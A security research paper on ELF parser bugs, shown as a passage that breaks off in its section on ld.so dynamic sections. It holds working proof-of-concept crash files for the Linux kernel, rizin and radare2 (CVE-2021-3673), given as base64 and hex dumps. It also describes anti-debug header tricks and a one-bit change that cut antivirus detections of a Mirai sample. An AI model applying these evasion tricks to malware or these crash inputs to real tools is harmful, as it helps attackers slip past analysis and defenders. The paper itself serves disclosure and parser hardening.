






┌───────────────────────┐
▄▄▄▄▄ ▄▄▄▄▄ ▄▄▄▄▄ │
│ █ █ █ █ █ █ │
│ █ █ █ █ █▀▀▀▀ │
│ █ █ █ █ ▄ │
│ ▄▄▄▄▄ │
│ █ █ │
│ █ █ │
│ █▄▄▄█ │
│ ▄ ▄ │
│ █ █ │
│ █ █ │
│ █▄▄▄█ │
│ ▄▄▄▄▄ │
│ █ │
Some ELF Parser Bugs │ █ │
~ netspooky └───────────────────█ ──┘
File parsers are a core component of any complex computer system. Knowing what data to
load and how to interpret it are key features of any good file parser. To speed up or
simplify the parsing process, assumptions about the nature of the file are typically made.
These assumptions can create conditions that allow for anything from evading analysis, to
crashing the parser, to executing code.
This paper will cover some ELF parser bugs that I found when I was doing research for
ELF Binary Mangling Part 4.
CONTENTS
1.0 Endianness Assumptions
1.1 Ghidra, Ida, GDB, binutils Anti-Debug
1.2 Breaking Virus Total And Bypassing Heuristic Analysis
2.0 Trusting Reported Sizes
2.1 Linux Kernel - SIGBUS via p_offset
2.2 rizin - 0xacabacabacabacab Memory Corruption
3.0 Misparsing Magic Numbers
3.1 radare2 5.3.1: CVE-2021-3673 A.K.A. The "LELF" Bug
3.2 radare2 4.2.1: LELF Memory Corruption
4.0 The Forever Haunted ld.so
4.1 Crash Via Static ELF and RWX Page
4.2 OOB Reads (and Writes?) - Abusing Dynamic Sections
5.0 .fini
[ 1.0 Endianness Assumptions ]────────────────────────────────────────────────────────//──
This bug affects a whole lot of parser libraries. I originally noticed it a few years back
when I started putting code in ei_data inside the ELF header and realizing just how bad it
messed various tools up.
This is an example of an unpacked, unstripped, Mirai binary targeting MIPS.
▶ readelf -h Eros.mips
ELF Header:
Magic: 7f 45 4c 46 01 02 01 00 00 00 00 00 00 00 00 00
Class: ELF32
Data: 2's complement, big endian
Version: 1 (current)
OS/ABI: UNIX - System V
ABI Version: 0
Type: EXEC (Executable file)
Machine: MIPS R3000
Version: 0x1
Entry point address: 0x400260
Start of program headers: 52 (bytes into file)
Start of section headers: 63032 (bytes into file)
Flags: 0x1007, noreorder, pic, cpic, o32, mips1
Size of this header: 52 (bytes)
Size of program headers: 32 (bytes)
Number of program headers: 3
Size of section headers: 40 (bytes)
Number of section headers: 14
Section header string table index: 13
In an ELF file, the endianness is set by the ELF header field ei_data. In a big endian
MIPS binary, ei_data = 2. For all little endian binaries, ei_data = 1.
┌─ ELF HEADER - First 16 Bytes ────────────────────────────────────────────────────────┐
│ A ei_magic "\x7fELF" │
│ B ei_class 1 = 32 Bit, 2 = 64 Bit (A-ackshully: If LSB = 1, 32 bit, else, 64 bit) │
│ C ei_data 1 = Little Endian, 2 = Big Endian │
│ D ei_version ELF Version, only "1" is defined │
│ E ei_osabi OS/ABI Version │
│ F ei_pad 8 Bytes, 4 U :3 │
└──────────────────────────────────────────────────────────────────────────────────────┘
The first part of our binary's header looks like this:
ELFHEADER A───────┐ B┐C┐ D┐E┐ F─────────────────┐
00000000: 7f45 4c46 0102 0100 0000 0000 0000 0000 .ELF............
This field is important, because structures in the ELF header are stored based on
the target machine's endianness.
By setting ei_data to 1, the analysis breaks.
▶ readelf -h le.Eros.mips
ELF Header:
Magic: 7f 45 4c 46 01 01 01 00 00 00 00 00 00 00 00 00
Class: ELF32
Data: 2's complement, little endian
Version: 1 (current)
OS/ABI: UNIX - System V
ABI Version: 0
Type: <unknown>: 200
Machine: <unknown>: 0x800
Version: 0x1000000
Entry point address: 0x60024000
Start of program headers: 872415232 (bytes into file)
Start of section headers: 955645952 (bytes into file)
Flags: 0x7100000
Size of this header: 13312 (bytes)
Size of program headers: 8192 (bytes)
Number of program headers: 768
Size of section headers: 10240 (bytes)
Number of section headers: 3584
Section header string table index: 3328
readelf: Warning: The e_shentsize field in the ELF header is larger than the size of an
ELF section header
readelf: Error: Reading 36700160 bytes extends past end of file for section headers
readelf: Warning: The e_phentsize field in the ELF header is larger than the size of an
ELF program header
readelf: Error: Reading 6291456 bytes extends past end of file for program headers
Testing this with rabin2 yields similar results
▶ rabin2 -I le.Eros.mips
WARNING: get_sections_from_phdr: assertion 'bin && bin->phdr' failed (line 2832)
WARNING: get_sections_from_phdr: assertion 'bin && bin->phdr' failed (line 2832)
WARNING: get_sections_from_phdr: assertion 'bin && bin->phdr' failed (line 2832)
arch x86
baddr 0x0
binsz 63593
bintype elf
bits 32
canary false
class ELF32
crypto false
endian little
havecode true
laddr 0x0
lang c
linenum true
lsyms true
machine <unknown>: 0x800
maxopsz 16
minopsz 1
nx false
os linux
pcalign 0
pic false
relocs true
rpath NONE
sanitiz false
static true
stripped false
subsys linux
va true
This also happens if ei_data is 0. This is due to the endianness assumption that many
tools make by default. Assuming that data is little endian unless explicitly specified
can lead to misparsing issues that will cascade across a complex analysis stack. We'll
see why this is important later on in this paper.
The e_machine field is processed as 0x800. This is because the e_machine number for MIPS
is 8, but the byte order is wrong. In the binutils source, it also states that this field
is officially for "big-endian only".
https://github.com/bminor/binutils-gdb/blob/master/include/elf/common.h#L115
#define EM_MIPS 8 /* MIPS R3000 (officially, big-endian only) */
:: 1.1 Ghidra, Ida, GDB, binutils Anti-Debug :::::::::::::::::::::::::::::::::::::::::::::
To demonstrate how widespread this sort of issue is, let's take a look at some other tools
commonly used to debug and analyze ELF files.
When ei_data is changed to 1 in le.Eros.mips, Ghidra will recognize it as an ELF, but it
won't know what language (cpu arch) it is. This was tested on ghidra_10.1.1_PUBLIC.
The unmodified MIPS ELF is parsed properly and is recognized as a MIPS ELF:

The MIPS ELF with ei_data set to 1 looks like this:

Additionally, when testing my PoC from EBM4 "0xFFtactics" with Ghidra, it doesn't even see
the file as ELF, despite it running just fine on my machine.

The file itself has 0xFF for ei_data, with many other fields maxed out in terms of values.
It doesn't contain any overlays, it's just a regular ELF.
▶ ./0xFFtactics
▶ echo $?
6
objdump also has problems with this binary:
▶ objdump -d 0xFFtactics
objdump: 0xFFtactics: file format not recognized
As does GDB:
▶ gdb ./0xFFtactics
...snip...
"/home/user/./0xFFtactics": not in executable format: file format not recognized
As for Ida Pro, similar behavior between the two MIPS ELFs is also achieved. Ida will
see le.Eros.mips as an ELF, but it won't know what CPU architecure to process it as.
These tests were done on Ida Pro 7.6.210427
Here is the unmodified MIPS ELF:

Here is le.Eros.mips. Note that the CPU is listed as "2048", which corresponds to the
e_machine field being swapped to 0x800 when read in little endian format.

With 0xFFtactics, it also doesn't know what architecture it is, but does successfully
characterize it as an ELF.

:: 1.2 Breaking Virus Total And Bypassing Heuristic Analysis :::::::::::::::::::::::::::::
A Virus Total scan on the unmodified binary has 32 detections for Mirai. The same ELF with
ei_data set to 1 has only 8 detections. By flipping just 1 bit in the ELF header, we can
reduce detections by 75%. This has otherwise nothing that would inhibit heuristic analysis
for known Mirai signatures, so a reduction of detections is pretty significant given how
well documented these binaries are.
This same thing happens with x86-64 ELFs. It's arguably more noticeable for an analyst to
see something marked as big endian when most binaries they come across are little endian,
but it's still something to be aware of. A lot of malware analysis is done by advanced
tooling that rely on parsers containing these bugs under the hood.
Let's compile a simple program to demonstrate.
#include <stdio.h>
void main() { printf("lol\n"); }
If we run the first binary and examine with readelf, we can see it's a normal ELF, that
executes as expected.
[user@localhost]-[08:31:53]-[~]
$ ./endiantest
lol
[user@localhost]-[08:32:01]-[~]
$ readelf -h endiantest
ELF Header:
Magic: 7f 45 4c 46 02 01 01 00 00 00 00 00 00 00 00 00
Class: ELF64
Data: 2's complement, little endian
Version: 1 (current)
OS/ABI: UNIX - System V
ABI Version: 0
Type: DYN (Shared object file)
Machine: Advanced Micro Devices X86-64
Version: 0x1
Entry point address: 0x530
Start of program headers: 64 (bytes into file)
Start of section headers: 6440 (bytes into file)
Flags: 0x0
Size of this header: 64 (bytes)
Size of program headers: 56 (bytes)
Number of program headers: 9
Size of section headers: 64 (bytes)
Number of section headers: 29
Section header string table index: 28
If we change the ei_data field to 2, explicitly stating that it's big endian, the
analysis fails, despite the program executing as expected.
[user@localhost]-[08:32:06]-[~]
$ ./endiantest2
lol
[user@localhost]-[08:32:12]-[~]
$ readelf -h endiantest2
ELF Header:
Magic: 7f 45 4c 46 02 02 01 00 00 00 00 00 00 00 00 00
Class: ELF64
Data: 2's complement, big endian
Version: 1 (current)
OS/ABI: UNIX - System V
ABI Version: 0
Type: <unknown>: 300
Machine: <unknown>: 0x3e00
Version: 0x1000000
Entry point address: 0x3005000000000000
Start of program headers: 4611686018427387904 (bytes into file)
Start of section headers: 2889340635934883840 (bytes into file)
Flags: 0x0
Size of this header: 16384 (bytes)
Size of program headers: 14336 (bytes)
Number of program headers: 2304
Size of section headers: 16384 (bytes)
Number of section headers: 7424
Section header string table index: 7168
readelf: Warning: The e_shentsize field in the ELF header is larger than the size of
an ELF section header
readelf: Error: Reading 121634816 bytes extends past end of file for section headers
readelf: Error: Too many program headers - 0x900 - the file is not that big
[ SPOOKY TIP ]
Parsers should check e_machine without trying to guess the endianness first, and then
compare to a list of known machine values, presented in the order that they would appear
in a binary. If an inconsistency is detected, that should be reported by the analysis
tool. Since the kernel doesn't usually care about ei_data, analysis tools probably
shouldn't either.
█ See ELF Binary Mangling Part 4 for info on what fields in an ELF or Program Header are
█ actually required to execute a binary, and what can be modified.
Shoutout @grenlith for being one of the only people to ever actually notice and track
these types of inconsistencies. :}
[ 2.0 Trusting Reported Sizes ]───────────────────────────────────────────────────────//──
:: 2.1 Linux Kernel - SIGBUS via p_offset ::::::::::::::::::::::::::::::::::::::::::::::::
This bug is triggered simply by making p_offset in a program header larger than the file
itself. This happens because the ELF parser in the Linux kernel assumes that the Program
Header is being truthful when it asks where to load and store a certain section of the
binary into memory.
[ POC ]
$ base64 -d <<< f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAA\
EAAOAABAAAAAAAAAAEAAAAFAAAAABAAAAAAAAAAAEAAAAAAAAAAQAAAAAAAABAAAAAAAAAAEAAAAAAAAAIA\
AAAAAAAAkJCwPGa/BgAPBQ== > ns.sigbus.elf
$ chmod +x ns.sigbus.elf
$ ./sigbus.elf
:: 2.2 rizin - 0xacabacabacabacab Memory Corruption ::::::::::::::::::::::::::::::::::::::
I found this bug via fuzzing. I used honggfuzz and a copy of /bin/true to test rz-bin,
the file analysis tool in rizin. true is a solid addition to your ELF corpus, because it's
very small, but has all the bells and whistles that you might want to test in an ELF file.
The POC contains the pattern 0xacabacabacabacab at 0x9248 within the section headers which
is free'd by vector_free_elems. It is now in the rizin test-bins repo here:
https://github.com/rizinorg/rizin-testbins/blob/master/elf/true-invalid-section-offset
[ DEMO ]
user@xooted:~$ rizin -v
rizin 0.3.0-git @ linux-x86-64
commit: f2c593d223df71fd54bee7224963598d8f9676ef, build: 2021-07-12__01:15:14
user@xooted:~$ rizin POC.bin
WARNING: Cannot initialize section strings table
WARNING: invalid section offset.Segmentation fault (core dumped)
user@xooted:~$ rz-bin -I POC.bin
WARNING: Cannot initialize section strings table
WARNING: invalid section offset.Segmentation fault (core dumped)
[ BACKTRACE ]
#0 __GI___libc_free (mem=0xacabacabacabacab) at malloc.c:3102
#1 0x00007ffff7d1872d in vector_free_elems (vec=0x5555556ab220) at
../librz/include/rz_vector.h:89
#2 rz_vector_clear (vec=0x5555556ab220) at ../librz/util/vector.c:70
#3 0x00007ffff7d187f2 in rz_vector_fini (vec=0x5555556ab220) at
../librz/util/vector.c:63
#4 0x00007ffff7d18842 in rz_vector_free (vec=0x5555556ab220) at
../librz/util/vector.c:77
#5 0x00007ffff6ccf2a2 in get_sections_from_dt_dynamic (bin=0x5555556843c0) at
../librz/bin/format/elf/elf_sections.c:161
#6 Elf64_rz_bin_elf_convert_sections (bin=bin@entry=0x5555556843c0,
sections=sections@entry=0x0) at ../librz/bin/format/elf/elf_sections.c:329
#7 0x00007ffff6cc4cd9 in rz_bin_elf_init_shdr (sections=0x0, bin=0x5555556843c0) at
../librz/bin/format/elf/elf.c:347
#8 rz_bin_elf_init (bin=0x5555556843c0) at ../librz/bin/format/elf/elf.c:347
#9 Elf64_rz_bin_elf_new_buf (buf=<optimized out>) at ../librz/bin/format/elf/elf.c:381
#10 0x00007ffff6c9df30 in load_buffer (bf=<optimized out>, bin_obj=0x555555684b90,
buf=<optimized out>, loadaddr=<optimized out>, sdb=<optimized out>) at
../librz/bin/p/bin_elf.inc:82
#11 0x00007ffff6c8b131 in rz_bin_object_new (bf=bf@entry=0x555555684920,
plugin=plugin@entry=0x5555555958e0, opts=opts@entry=0x7ffffff9c5c8,
offset=offset@entry=0x0, sz=<optimized out>) at ../librz/bin/bobj.c:271
#12 0x00007ffff6c87f8c in rz_bin_file_new_from_buffer (bin=bin@entry=0x555555590eb0,
file=<optimized out>, buf=buf@entry=0x555555684d70, rawstr=<optimized out>,
opts=opts@entry=0x7ffffff9c5c8, fd=<optimized out>, pluginname=0x0)
at ../librz/bin/bfile.c:551
#13 0x00007ffff6c7d384 in rz_bin_open_buf (bin=bin@entry=0x555555590eb0,
buf=buf@entry=0x555555684d70, opt=opt@entry=0x7ffffff9c5c0) at
../librz/bin/bin.c:280
#14 0x00007ffff6c7d6ac in rz_bin_open_io (bin=bin@entry=0x555555590eb0,
opt=opt@entry=0x7ffffff9c5c0) at ../librz/bin/bin.c:338
#15 0x00007ffff6c7d7db in rz_bin_open (bin=bin@entry=0x555555590eb0,
file=file@entry=0x7fffffffe3c0 "POC.bin", opt=opt@entry=0x7ffffff9c5c0) at
../librz/bin/bin.c:230
#16 0x00007ffff7fa321e in rz_main_rz_bin (argc=<optimized out>, argv=0x7fffffffe088) at
../librz/main/rz-bin.c:1052
#17 0x00007ffff7db50b3 in __libc_start_main (main=0x555555555060 <main>, argc=0x3,
argv=0x7fffffffe088, init=<optimized out>, fini=<optimized out>,
rtld_fini=<optimized out>, stack_end=0x7fffffffe078) at ../csu/ libc-start.c:308
#18 0x000055555555509e in _start ()
[ How does this happen? ]
When Rizin sets up a binary for analysis, it creates an object with pieces of info about
the binary. This structure is populated while parsing the file, with sections and their
associated data grouped together in a large vector.
The parser iterates over the ELF header to find where Program and Section Headers are,
and then iterates over those to process other parts of the file. Because a file would
never lie, most parsers will take these offsets stored in the headers and process them
as the data they expect. There are often checks for whether or not values exist, but not
necessarily whether they are within a reasonable range.
This is the basic run down for what triggers this bug:
1.0: rz_bin_elf_init takes the ELFOBJ which represents the file itself in memory.
1.1: Checks for whether or not it has the headers it expects.
1.2: Creates a vector to hold all of the binary's sections
2.0: Call to rz_bin_elf_init_shdr to initialize the section headers vector.
3.0: Call to rz_bin_elf_convert_sections, which creates another vector by iterating
over section headers.
4.0: It succeeds, and follows up with a check for other segments via
rz_bin_elf_has_segments, which then calls get_sections_from_dt_dynamic.
5.0: get_sections_from_dt_dynamic calls a few functions to check what can be done with
the given section.
5.1: After all of those checks fail, creates another rz_vector, and attempts to do a
final call to the last possible check: create_section_plt.
6.0: This invokes create_section_from_phdr, which pushes a new element onto the
existing vector, and starts adding information to it.
6.1: This fails, because of the check to section->offset, which is already now out of
the bounds of the file. section->offset is set before this check occurs.
7.0: All of this causes check in 5.1 to fail, which results in a call to rz_vector_free.
8.0: This iterates over the vector elements (including the bogus section->offset), and
frees them for the length of the vector.
9.0: The section->offset pointer is our arbitrary pointer value.
The pointer calculations get messed up due to a few factors here.
In normal circumstances, the section header offset points to a table of section headers,
and the parser iterates over them to understand what sections exist in the binary.
The original binary's section header offset was 0x71B8, with 0x1C section headers that
are 0x40 in length.
0x1C x 0x40 = 0x700
This makes sense because the file ends at 0x78B8, which means that the original file has
the sections that run from 0x71B8 to the end of the file
Our evil file ends at 0x994C, but has a section header offset of 0x91D8, with 0x1E
section headers.
0x1E x 0x40 = 0x780
Program Header Ending Address: 0x91D8 + 0x780 = 0x9958
The pointer to the section header buffer is now past the end of the file in memory. This
leads to both out of bounds reads and writes, and a corrupted pointer within the parser.
There are two takeaways here:
1. Make sure you check that the total number of iterable items and their sizes match the
true size of the buffer.
2. Don't allocate vectors in memory without verifying that they will actually be filled.
See this link for what the vulnerable function looked like prior to the fix:
https://github.com/rizinorg/rizin/blob/0e11486f36aa784b471d8d4ecf291a8d962b4c47
/librz/bin/format/elf/elf_sections.c#L66
This is the POC TikTok: https://vm.tiktok.com/ZM8S7SFK1/
[ 3.0 Misparsing Magic Numbers ]──────────────────────────────────────────────────────//──
This isn't an ELF parser bug per se, but a general problem with file parsing as a whole.
Our binary analysis tools and debuggers usually support more than one binary file type.
Even within families of file types, parsing them correctly can be tricky (as seen above),
so getting the type correct is crucial.
:: 3.1 radare2 5.3.1: CVE-2021-3673 A.K.A. The "LELF" Bug ::::::::::::::::::::::::::::::::
This bug was also found via fuzzing. I was working on fuzzing the ELF header, checking
for things that might throw off a file analysis tool (like the endianness bug) while still
being able to execute properly.
After doing crash analysis, it was apparent that this particular bug could be triggered
by simply changing the first byte of any ELF binary to an "L". In radare2, this invokes
the Linear Executable parser.
Linear Executables are an early flavor of EXE file, mainly used for VxD drivers for
Windows (2.0 - 9x). It's related to PE, with a DOS stub and pointer to the LE header.
Because the LE signature is known, it's included in how radare2 scans for file types
within the header when trying to determine the file type. Unfortunately, the binary parser
sets up a binary object for the LE header, without it actually being in the right place.
It prematurely parses the executable with whatever values were already initialized, and
begins iterating over the header thinking that the rest of the setup code was taken care
of. In the __get_entries function, it starts this process, eventually running into a
pointer to somewhere that doesn't have anything allocated, and ends up looping over what
it thinks are headers, but the header counter is corrupted as well. This slowly consumes
all system memory resulting in a DOS.
[ POC ]
user@xoo:~$ xxd LELF.bin
00000000: 4c45 4c46 0201 016e 6574 7370 6f6f 6b79 LELF...netspooky
00000010: 0200 3e00 0100 0000 7800 4000 0000 0000 ..>.....x.@.....
00000020: 4000 0000 0000 0000 0000 0000 0000 0000 @...............
00000030: 0000 0000 4000 3800 0100 0000 0000 0000 ....@.8.........
00000040: 0100 0000 0500 0000 0000 0000 0000 0000 ................
00000050: 0000 4000 0000 0000 0000 4000 0000 0000 ..@.......@.....
00000060: 0000 0000 0100 0000 0000 0000 0100 0000 ................
00000070: 0000 2000 0000 0000 b03c 66bf 0600 0f05 .. ......<f.....
user@xoo:~$ sha256sum LELF.bin
17d38470e24fc69504b43d1500bccf61b833acd621574a197ed69ae97546ef4c LELF.bin
user@xoo:~$ time r2 LELF.bin
Killed
real 0m36.437s
user 0m32.818s
sys 0m3.411s
Video: https://vm.tiktok.com/ZM8AAXtBy/
[ REFS ]
- https://bugzilla.redhat.com/show_bug.cgi?id=1989130
- https://github.com/radareorg/radare2/issues/18923
:: 3.2 radare2 4.2.1: LELF Memory Corruption :::::::::::::::::::::::::::::::::::::::::::::
I was testing the LELF bug in earlier versions of radare2 to see if it had a different
effect on those parsers. The version that currently ships in the Ubuntu 20.04 repos is
version 4.2.1, so that's what I used.
When I ran the binary, I noticed that in my POC where I marked the header in ei_padding
with the string "netspooky", the behavior was different. This actually caused a crash,
rather than a DOS. The address it crashed on was just beyond the heap.
I saw that it segfaults when dereferencing a value in rax, after doing some pointer math.
0x7ffff7479126 mov rcx, QWORD PTR [r12+0x40]
0x7ffff747912b lea rax, [rax+rax*2]
0x7ffff747912f lea rax, [rcx+rax*8]
→ 0x7ffff7479133 mov esi, DWORD PTR [rax-0x14]
0x7ffff7479136 movzx eax, WORD PTR [rsp+0x22]
0x7ffff747913b add rsi, rax
0x7ffff747913e test r15b, r15b
0x7ffff7479141 js 0x7ffff74791d1
0x7ffff7479147 mov rdi, r13
The memory map for the rabin2 binary looked like this:
gef➤ vmmap
[ Legend: Code | Heap | Stack ]
Start End Offset Perm Path
0x0000555555554000 0x0000555555555000 0x0000000000000000 r-- /usr/bin/rabin2
0x0000555555555000 0x0000555555556000 0x0000000000001000 r-x /usr/bin/rabin2
0x0000555555556000 0x0000555555557000 0x0000000000002000 r-- /usr/bin/rabin2
0x0000555555557000 0x0000555555558000 0x0000000000002000 r-- /usr/bin/rabin2
0x0000555555558000 0x0000555555559000 0x0000000000003000 rw- /usr/bin/rabin2
0x0000555555559000 0x00005555556ec000 0x0000000000000000 rw- [heap]
The value in RAX was 0x5555557801d8, which is outside of the heap in some unallocated
area. After playing around with "netspooky" string in the header, I realized that
different values resulted in different addresses. My testing showed that the values
of ei_version and ei_osabi in the ELF header influence the pointer value that is
initialized and passed into RSI in the address that the segfault occurred on, and
later in the code, it's scaled with RAX.
ei_osabi scales the pointer by 0x1800, and ei_version scales it by 0x18. This is
then added to another value and used as a base pointer to where the data is located.
I started looking at the LE parser code a bit more indepth than when I initially found
the LELF bug. This led me back to the __get_entries function in libr/bin/format/le.c.
It initializes a list to contain headers, and in a while loop, sets up and iterates
over the header. The code then does another loop to initialize all of the headers while
decrementing the header count value. This is the core functionality of the DOS, but in
this version, the pointer to where the data starts can be reliably controlled. This
address is passed around in numerous parts of this code.
https://github.com/radareorg/radare2/blob/f502016c573b46bd6028fca8609a2d36df803b23
/libr/bin/format/le/le.c#L104
This particular bug was actually fixed the same day as the release of 4.2.1, but it's
still present in the binary that was published, which is still the current version of
radare2 in Ubuntu 20.04.
https://github.com/radareorg/radare2/commit/f3b9ed65eb0d456cd70ef94c570ffe4ba881a534
#diff-1076ec0141b0a449aaca3f08fc363bc7ec66bc9bf0d3a2bfbe98571efea286c6
[ 4.0 The Forever Haunted ld.so ]─────────────────────────────────────────────────────//──
Now it's time for the skateboarding dog segment. Here are a couple of random bugs related
to ld.so that are kind of funny.
:: 4.1 Crash Via Static ELF and RWX Page :::::::::::::::::::::::::::::::::::::::::::::::::
I had been testing some of the parsers with golf'd ELFs, and found that ld will segfault
when trying to load a small, static ELF.
user@computer:~/elf$ ./test.bin
user@computer:~/elf$ echo $?
6
user@computer:~/elf$ /lib64/ld-linux-x86-64.so.2 ./test.bin
Segmentation fault
user@computer:~/elf$ file test.bin
test.bin: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, no
section header
user@computer:~/elf$ ls -la test.bin
-rwxr-xr-x 1 user user 128 Feb 30 17:49 test.bin
The dmesg output:
[1.420420] ld-linux-x86-64[5310]: segfault at 8 ip 00007f84da4b23dd sp 00007fff5a89b150
error 4 in ld-2.31.so[7f84da4a7000+20000]
Error 4 comes from trying to access an invalid memory address.
The actual bug is triggered within _dl_relocate_object and is a null pointer dereference.
When the program gets here, rax is 0.
0x7ffff7fde3cb <_dl_relocate_object+139> jne 0x7ffff7fdf7cf <_dl_relocate_object+5263>
0x7ffff7fde3d1 <_dl_relocate_object+145> mov rax, QWORD PTR [r11+0x68]
0x7ffff7fde3d5 <_dl_relocate_object+149> cmp QWORD PTR [r11+0xf8], 0x0
→ 0x7ffff7fde3dd <_dl_relocate_object+157> mov rax, QWORD PTR [rax+0x8]
0x7ffff7fde3e1 <_dl_relocate_object+161> mov QWORD PTR [rbp-0xb8], rax
0x7ffff7fde3e8 <_dl_relocate_object+168> je 0x7ffff7fdf0a0 <_dl_relocate_object+3424>
0x7ffff7fde3ee <_dl_relocate_object+174> test r13d, r13d
0x7ffff7fde3f1 <_dl_relocate_object+177> je 0x7ffff7fde448 <_dl_relocate_object+264>
0x7ffff7fde3f3 <_dl_relocate_object+179> mov rax, QWORD PTR [r11+0x58]
REF: https://code.woboq.org/userspace/glibc/elf/dl-reloc.c.html#_dl_relocate_object
A curious side note is that during this specific phase of processing, ld's own stack has
RWX permissions.
Start End Perm Path
0x0000000000400000 0x0000000100400000 r-x /home/user/elf/test.bin
0x00007ffff7fca000 0x00007ffff7fcc000 rw-
0x00007ffff7fcc000 0x00007ffff7fd0000 r-- [vvar]
0x00007ffff7fd0000 0x00007ffff7fd2000 r-x [vdso]
0x00007ffff7fd2000 0x00007ffff7fd3000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7fd3000 0x00007ffff7ff3000 r-x /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7ff3000 0x00007ffff7ffb000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7ffc000 0x00007ffff7ffe000 rw- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7ffe000 0x00007ffff7fff000 rw- [heap]
0x00007ffffffde000 0x00007ffffffff000 rwx [stack]
:: 4.2 OOB Reads (and Writes?) - Abusing Dynamic Sections :::::::::::::::::::::::::::::::
Entries in the dynamic section of an ELF typically contain a lot of addresses relative to
the start of a section in the binary. Through this, there are some simple changes you can
make to a binary that will cause ld to do things incorrectly, up to and including parsing
itself in memory.
To demonstrate, let's look at the .gnu.version_r section. You can read this section if it
exists using:
$ readelf -V yourbinary
About this section from the LSB reference:
Symbol definitions are contained in the special section .gnu.version_r which has a
section type of SHT_GNU_verneed. The number of entries in this section is contained
in the DT_VERNEEDNUM entry of the Dynamic Section. The sh_link member of the section
header points to the section that contains the strings referenced by this section.
REF: https://refspecs.linuxfoundation.org/LSB_1.3.0/gLSB/gLSB/symverrqmts.html
There are two ways you can use these sections to trigger bugs, through either the main
Elfxx_Verneed struct, or one of the Elfxx_Vernaux entries.
Here's some examples from the binary I was testing:
┌ Elfxx_Verneed ───────────────────────────────────────────────────────────────────┐
│ DATA NAME DESCRIPTION │
│ 0100 ────── vn_version ─ Version of the structure. ld only processes version 1. │
│ 0500 ────── vn_cnt ───── Number of associated verneed array entries. │
│ 0100 0000 ─ vn_file ──── Offset of the file name string in the section header. │
│ 1000 0000 ─ vn_aux ───── Offset of the corresponding entry in the vernaux array. │
│ 0000 0000 ─ vn_next ──── Offset of the next verneed entry. │
└──────────────────────────────────────────────────────────────────────────────────┘
┌ Elfxx_Vernaux ───────────────────────────────────────────────────────────────────┐
│ DATA NAME DESCRIPTION │
│ 1369 690d ─ vna_hash ─── Dependency name hash value (ELF hash function). │
│ 0000 ────── vna_flags ── Dependency information flag bitmask. │
│ 0600 ────── vna_other ── Object file version identifier used in the .gnu.version │
│ symbol version array. If bit 15 is set, this object is │
│ ignored by the linker. │
│ 7302 0000 ─ vna_name ─── Offset of dependency name string in the section header. │
│ 1000 0000 ─ vna_next ─── Offset of next vernaux entry. │
└──────────────────────────────────────────────────────────────────────────────────┘
Verneed.vn_file is the string table offset pointing to the name of the file needed by the
binary. It's unsigned, so you can set it up to any address in the lower 32 bits of the
